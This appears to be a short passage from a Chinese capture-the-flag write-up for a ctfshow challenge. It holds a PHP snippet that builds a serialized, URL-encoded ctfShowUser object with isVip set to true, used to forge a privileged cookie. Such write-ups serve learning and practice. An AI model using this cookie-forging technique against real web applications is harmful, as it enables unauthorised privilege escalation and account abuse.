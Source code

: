 <figure><img src="../.gitbook/assets/image (8) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### ①代码解释

和上面的差别就是username和password不一样就可以了。

### ②思路解释

我们首先写一个php代码来生成cookie

```php

<?php

class ctfShowUser{
    public $username='123';
    public $password='456';
    public $isVip=true;
}
$a=new ctfShowUser();
echo urlencode(serialize($a));

?>

```
